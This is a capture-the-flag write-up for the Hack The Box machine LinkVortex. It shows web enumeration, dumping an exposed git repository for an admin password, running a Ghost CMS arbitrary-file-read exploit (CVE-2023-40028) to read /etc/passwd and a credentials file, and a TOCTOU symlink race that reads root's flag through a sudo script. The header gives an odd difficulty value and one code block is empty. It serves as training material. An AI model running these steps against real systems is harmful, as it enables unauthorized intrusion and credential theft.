- Machine Name: LinkVortex
- OS Type: Linux
- Difficulty: Windows

### Port Scanning - Service & Version Enumeration

```bash

```

## Enumeration

### Port 80/HTTP

let’s open website in web browser



we need to add linkvortex.htb to /etc/hosts as web server is expecting us to access it using hostname 

```bash
echo "10.10.11.47 linkvortex.htb" | sudo tee -a /etc/hosts
```

and refresh the webapege



let’s check the tech stack using whatweb

```bash
whatweb http://linkvortex.htb
```



run the gobuster to find hidden directories

```bash
gobuster dir -u http://linkvortex.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -b 301,404
```



nothing much interesting the LICENCE file contains

```bash
Copyright (c) 2013-2022 Ghost Foundation

Permission is hereby granted, free of charge, to any person
obtaining a copy of this software and associated documentation
files (the "Software"), to deal in the Software without
restriction, including without limitation the rights to use,
copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the
Software is furnished to do so, subject to the following
conditions:

The above copyright notice and this permission notice shall be
included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES
OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT
HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY,
WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.
```

the backend web server is Ghost, which confirmed by the whatweb as well

then i ran wfuzz, to find the subdomains

```bash
wfuzz -u http://linkvortex.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.linkvortex.htb" --hh 230
```

the `--hh` switch is used to filter the response like it’s exclude the 230CH response 



so there’s dev subdomain founded by wfuzz, let’s add this to our /etc/hosts file

and visit, dev.linkvortex.htb



new domain, new site let’s run gobuster again i used quickhits.txt

```bash
gobuster dir -u http://dev.linkvortex.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -b 403,404
```



Nice the git repo is exposed, i’ll use git-dumper to dump the git repository from the website

```bash
git-dumper http://dev.linkvortex.htb/ linkvortex
```

after that i ran `git status` to find any interesting information



since we can see the authentication.test.js has been modified, let’s see what’s changed in that file

```bash
git diff HEAD ghost/core/test/regression/api/admin/authentication.test.js
```



now we need to login to Ghost CMS admin panel which can be found here → [http://linkvortex.htb/ghost](http://linkvortex.htb/ghost)



and we got the admin panel,  now as we have the password let’s try to login as admin we use simple guess `admin@linkvortex.htb` to login to the admin panel



after logining-in i found the version of Ghost CMS from ***Gear icon > About Ghost***



searching for exploit i found - https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028

### Ghost Arbitrary File Read Exploit (CVE-2023-40028)

This script exploits a vulnerability in Ghost CMS (CVE-2023-40028) to read arbitrary files from the server. By leveraging a symlink in an uploaded ZIP file, an attacker can gain unauthorized access to sensitive files on the system.

download the exploit and run it 

```bash
bash exploit.sh -u admin@linkvortex.htb -p 'OctopiFociPilfer45' -h http://linkvortex.htb
```



we tried by reading /etc/passwd file

i tried dumping some SSH keys for the node user but no success, i remember that we got the full config path in docker file



let’s read the config file

reading the config file i found the credentials of bob user



let’s use this credentials to login as bob

```bash
ssh bob@10.10.11.47
```



```bash
sudo -l
```



reading the script



it seems the **TOCTOU (time-of-check-time-of-use vulnerability)**

in first terminal we’ll run below command

```bash
while true; do ln -sf /root/root.txt /var/quarantined/toctou.png; done
```

in second session we run below command

```bash
ln -s /home/bob/.bashrc /dev/shm/toctou.png

ls -l /dev/shm/toctou.png
```

and then run it, we’ll get the root.txt

```bash
CHECK_CONTENT=true sudo bash /opt/ghost/clean_symlink.sh /dev/shm/toctou.png
```

